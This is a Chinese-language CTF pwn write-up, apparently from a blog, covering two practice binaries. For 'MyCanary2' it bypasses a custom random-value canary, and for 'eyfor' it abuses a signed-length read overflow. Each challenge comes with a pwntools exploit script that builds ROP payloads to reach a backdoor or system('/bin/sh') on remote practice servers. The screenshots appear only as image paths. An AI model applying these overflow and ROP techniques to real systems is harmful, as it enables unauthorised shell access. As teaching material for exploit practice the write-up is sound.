







# MyCanary2

## 保护策略：



## 程序逻辑：



可以选择1，进行输入，并且这里存在了大量的溢出。

选择2，则是将一个随机数打印出来(这道题其实就相当于人工构造了一个canary)，不过打印出来之后会重新存入一个新的随机数。

选择3就会退出while的无限循环。


最后main函数返回的时候有一个检查如下



如果v2不等于生成的随机数的话(也就是溢出时覆盖了v2)，程序就会exit。也就是说前面溢出控制的返回地址也没用了。同时v2是可以被read输入的数据覆盖的。

## 利用思路：

这道题的思路就是通过随机数的检查，因此要么修改v2，要么修改0x4040d0上的随机数。因为这道题不可能输入到0x4040d0上，所以只考虑怎么修改v2的值为随机数。

唯一的方法就是选择1进行溢出返回地址后，**再执行一次2将随机数打印出来，同时新的随机数又写到了v2。**

最后选择3后成功通过了随机数的检查，然后控制程序执行流即可。

## EXP:
[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)
```py
from tools import *
p,e,libc= load("a")
p=remote('node4.buuoj.cn',27117)
context.arch='amd64'
context.log_level='debug'
back_door=0x401577
payload=(0x70+8)*b'\x00'+p64(0x401589)+p64(back_door)
#debug(p,0x401525,0x4014A9)
#pause()
p.sendlineafter('Input your choice\n',str(1))
p.sendlineafter('Show me the code:\n',payload)
p.sendlineafter('Input your choice\n',str(2))
p.sendlineafter('Input your choice\n',str(3))
p.interactive()
```




# eyfor

## 保护策略:



## 漏洞所在：



在vul函数中，a1的类型为int，但是read输入的时候强转成了unsigned int。这就意味着输入-1的话，read的第三个参数将变成0xffffffff,由于没有canary保护，所以这里就嘎嘎溢出了。

## 利用思路：

用strncpy把/bin/sh\x00复制到bss段上，由于存在后门函数，然后read溢出劫持执行流即可获取shell。

## EXP:
[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)
```py
from tools import *
p,e,libc= load("pwn4")
p=remote('node4.buuoj.cn',26600)
context.arch='amd64'
context.log_level='debug'

sys_plt_addr=e.symbols['system']
pop_rdi_addr=0x400983 
bss_addr=0x6010C0
leave_ret=0x400914
payload=b'a'
p.sendlineafter('go\n',payload)
#debug(p,0x4007E8)
for i in range(4):
    p.sendlineafter("message:\n",str(1))

pause()
p.sendline(str(-1))

pause()
payload=b'/bin/sh\x00'.ljust(0x38,b'a')+p64(0x400807)+p64(pop_rdi_addr)+p64(bss_addr)+p64(sys_plt_addr)
p.sendline(payload)
p.interactive()

```

】